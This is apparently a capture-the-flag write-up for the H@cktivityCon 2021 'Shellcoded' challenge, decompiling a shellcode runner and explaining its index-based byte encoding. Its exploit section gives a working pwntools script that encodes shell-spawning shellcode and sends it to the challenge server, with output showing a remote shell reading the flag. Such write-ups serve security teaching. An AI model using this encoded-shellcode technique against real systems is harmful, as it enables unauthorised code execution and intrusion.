 # H@cktivityCon 2021 CTF

## Shellcoded


> Give me your shellcode. I promise I'll run it! 
> 
> 379
> 
> [`shellcoded`](shellcoded)
>
> author: @M_alpha#3534

Tags: _pwn_ _shellcode_ _x86-64_ _remote-shell_


## Summary

Basic shellcode runner with a coder/decoder.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canary, so there's BOF, but this is really a shellcoding challenge, no need to exploit any missing mitigations since they just run your shellcode for you.  See below.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char cVar1;
  int iVar2;
  code *__buf;
  ssize_t sVar3;
  uint local_20;
  
  __buf = (code *)aligned_alloc(PAGE_SIZE,PAGE_SIZE);
  if (__buf == (code *)0x0) {
    fwrite("Failed to allocate memory.\n",1,0x1b,stderr);
    exit(1);
  }
  puts("Enter your shellcode.");
  sVar3 = read(0,__buf,PAGE_SIZE);
  if (-1 < sVar3) {
    for (local_20 = 0; (int)local_20 < sVar3; local_20 = local_20 + 1) {
      if ((local_20 & 1) == 0) {
        cVar1 = '\x01';
      }
      else {
        cVar1 = -1;
      }
      __buf[(int)local_20] = (code)((char)__buf[(int)local_20] + (char)local_20 * cVar1);
    }
    iVar2 = mprotect(__buf,PAGE_SIZE,5);
    if (iVar2 != 0) {
      free(__buf);
      fwrite("Failed to set memory permissions.\n",1,0x22,stderr);
      exit(1);
    }
    (*__buf)();
  }
  free(__buf);
  return 0;
}
```

`(*__buf)();` just runs your shellcode, however, the `for` loop above it will _decode_ your shellcode first, so you'll need to submit a _coded_ payload.

The logic is pretty basic: `decoded[i] = coded[i] +/- i`.  The plus or minus depends on if `i` is even (`(local_20 & 1) == 0`) or odd.  To create a coded version, just solve for `coded[i]`, IOW, `coded[i] = decoded[i] -/+ i` (notice how I swapped the `+/-`).

> This algorithm is symmetric, so a basic attack would be to just submit your shellcode and extract from GDB the _coded_ version and then use that for the actual challenge.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./shellcoded')

if args.REMOTE:
    p = remote('challenge.ctf.games', 31416)
else:
    p = process(binary.path)

shellcode = asm(shellcraft.sh())
shellcoded = [ x & 0xff for x in [ shellcode[i] + i if i & 1 else shellcode[i] - i for i in range(len(shellcode)) ]]

p.sendlineafter(b'shellcode.\n',bytearray(shellcoded))
p.interactive()
```

pwntools provided the shellcode, so no need to track that down, then for each byte, if the byte offset within the array is odd (`if i & 1`), then add `i`, else subtract.  

> The `& 0xff` is required since Python integer math is not signed 8-bit like the C source above (see the `(char)` casts above).

> The `shellcoded = [...` is Python list comprehension, if that syntax is foreign to you, you know what to Google.
> 

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/shellcoded/shellcoded'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.ctf.games on port 31416: Done
[*] Switching to interactive mode
$ cat flag.txt
flag{f27646ae277113d24c73dbc66a816721}
```
